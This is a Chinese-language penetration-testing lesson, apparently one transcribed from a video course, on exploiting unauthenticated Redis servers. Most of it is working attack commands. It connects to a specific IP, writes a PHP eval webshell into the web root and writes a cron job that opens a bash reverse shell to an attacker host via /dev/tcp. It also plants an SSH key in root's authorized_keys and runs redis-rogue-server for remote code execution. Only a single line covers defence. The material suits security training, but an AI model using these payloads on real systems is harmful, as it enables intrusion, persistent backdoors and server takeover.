# Kali渗透测试与网络安全：P55：Redis未授权访问漏洞利用 🔓



在本节课中，我们将学习Redis未授权访问漏洞的多种利用方式。Redis是一款高性能的键值对数据库，若配置不当（如未设置密码认证），攻击者可直接连接并操作数据库，进而可能导致写入Webshell、执行系统命令等严重后果。我们将从连接测试开始，逐步讲解漏洞的发现与利用方法。

## 连接Redis服务





上一节我们介绍了Redis未授权访问漏洞的原理，本节中我们来看看如何实际连接存在漏洞的Redis服务。



由于Redis不是Web服务，我们需要使用其客户端程序进行连接。首先需要下载并编译Redis客户端。





以下是下载和编译Redis客户端的步骤：
1.  下载Redis源码包。
2.  解压后进入源码目录。
3.  执行 `make` 命令进行编译。
4.  编译完成后，客户端程序 `redis-cli` 位于 `src` 目录下。



编译完成后，我们进入 `src` 目录，使用 `redis-cli` 程序进行连接测试。连接命令格式如下：

```bash
./redis-cli -h <目标IP地址> -p <目标端口>
```







例如，连接IP为 `139.9.198.30`，默认端口为 `6379` 的服务：
```bash
./redis-cli -h 139.9.198.30 -p 6379
```



如果连接成功且未要求密码，则说明存在未授权访问漏洞。连接后可以执行 `info` 命令查看服务器信息以确认。



## 写入Webshell







成功连接Redis后，如果目标服务器同时运行了Web服务（如Apache、Nginx），并且我们知道网站根目录的绝对路径，就可以尝试写入Webshell。

利用此方法的前提是结合信息收集，确定服务器的操作系统、Web容器类型（Apache/Nginx）及网站后端语言（PHP/JSP等），以便写入对应语言的Webshell。

以下是写入PHP Webshell的具体步骤：
1.  通过Redis配置命令，设置数据库备份文件存放目录为网站根目录。
    ```bash
    config set dir /var/www/html
    ```
2.  设置备份文件名为Webshell的文件名。
    ```bash
    config set dbfilename shell.php
    ```
3.  向数据库中写入一个键值对，其值包含PHP一句话木马代码。
    ```bash
    set x "\n\n<?php @eval($_POST['pass']);?>\n\n"
    ```
    **注意**：`\n\n` 用于换行，避免与文件中其他内容冲突。
4.  执行保存操作，将内存数据持久化到指定的备份文件中。
    ```bash
    save
    ```



操作完成后，即可在网站根目录下找到 `shell.php` 文件。使用中国蚁剑等Webshell管理工具，填写正确的URL和连接密码（本例中为 `pass`），即可成功连接并管理服务器。



## 写入定时任务反弹Shell

除了写入Webshell，我们还可以利用Redis未授权访问漏洞写入定时任务（Crontab）来获取反向Shell。





此方法适用于Linux系统。我们需要将定时任务写入到 `/var/spool/cron/` 或 `/etc/cron.d/` 目录下，具体路径因系统而异（例如，Ubuntu为 `/var/spool/cron/crontabs/root`）。

以下是写入定时任务反弹Shell的步骤：
1.  设置Redis备份路径为定时任务目录。
    ```bash
    config set dir /var/spool/cron/crontabs/
    ```
2.  设置备份文件名为对应用户（如root）。
    ```bash
    config set dbfilename root
    ```
3.  写入一个键值对，其值为定时任务命令。该任务将每分钟执行一次，向攻击者机器反弹Shell。
    ```bash
    set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/攻击者IP/攻击者端口 0>&1\n\n"
    ```
4.  执行保存操作。
    ```bash
    save
    ```





在攻击者机器上监听指定端口，等待目标服务器定时任务执行，即可获得一个反向Shell连接。

## 写入SSH公钥实现免密登录



如果Redis服务是以root权限运行的，我们可以通过写入SSH公钥到目标服务器的 `~/.ssh/authorized_keys` 文件中，实现免密码登录。





此方法的前提是目标服务器开启了SSH服务，并且 `~/.ssh` 目录存在或可创建。

以下是利用Redis写入SSH公钥的步骤：
1.  在攻击者机器上生成SSH密钥对。
    ```bash
    ssh-keygen -t rsa
    ```
2.  将公钥内容（`id_rsa.pub`）写入一个文本文件，并注意在前后添加换行符。
    ```bash
    (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt
    ```
3.  连接存在漏洞的Redis服务。
4.  清空当前数据库（可选，避免干扰）。
    ```bash
    flushall
    ```
5.  设置Redis备份目录为目标用户的 `.ssh` 目录。
    ```bash
    config set dir /root/.ssh/
    ```
6.  设置备份文件名为 `authorized_keys`。
    ```bash
    config set dbfilename authorized_keys
    ```
7.  将公钥文件内容写入Redis。
    ```bash
    cat key.txt | redis-cli -h <目标IP> -p <端口> -x set x
    ```
8.  执行保存操作。
    ```bash
    save
    ```





完成后，攻击者即可使用对应的私钥直接SSH免密登录到目标服务器。







## 主从复制RCE漏洞利用

Redis 4.x/5.x 版本存在主从复制漏洞。攻击者可以伪装成Redis主节点，诱使目标Redis服务器（从节点）同步数据，进而加载恶意的Redis模块（`.so` 文件），实现远程代码执行。



我们可以使用现成的工具（如 `redis-rogue-server`）来利用此漏洞。





以下是利用主从复制RCE的步骤：
1.  下载利用工具（如 `redis-rogue-server`）并解压。
2.  工具目录中通常包含一个恶意模块的源码（如 `exp.so`），需要先编译生成 `.so` 文件。
    ```bash
    cd src
    make
    ```
3.  运行利用脚本，指定目标地址、端口、本地监听地址及要执行的命令。
    ```bash
    python3 redis-rogue-server.py -r <目标IP> -p <目标端口> -L <攻击者IP> -P <攻击者端口> -f exp.so -c "<系统命令>"
    ```





执行后，攻击脚本会启动一个伪装的Redis主服务器，并让目标Redis同步数据、加载恶意模块，最终执行我们指定的系统命令，并将结果回显。

## 总结与作业

本节课中我们一起学习了Redis未授权访问漏洞的多种实战利用方法：
1.  **连接测试**：使用 `redis-cli` 验证未授权访问。
2.  **写入Webshell**：在已知Web路径时获取Web权限。
3.  **写入定时任务**：通过Crontab获取反向Shell。
4.  **写入SSH公钥**：在Redis以root运行时实现免密登录。
5.  **主从复制RCE**：利用高版本Redis特性实现远程代码执行。



这些手法的成功都依赖于Redis服务缺乏有效的认证机制。在防御层面，务必为Redis设置强密码、禁止外网访问、以低权限运行服务。





**课后作业**：
1.  尝试在提供的实验环境中，利用Redis未授权访问漏洞写入一个PHP Webshell并成功连接。
2.  搜索并了解如何利用Redis漏洞攻击内网中的其他服务（如通过写入定时任务攻击其他机器）。
3.  （选做）在本地搭建环境，测试主从复制RCE漏洞的利用过程。







请将你的实验过程和结果进行记录。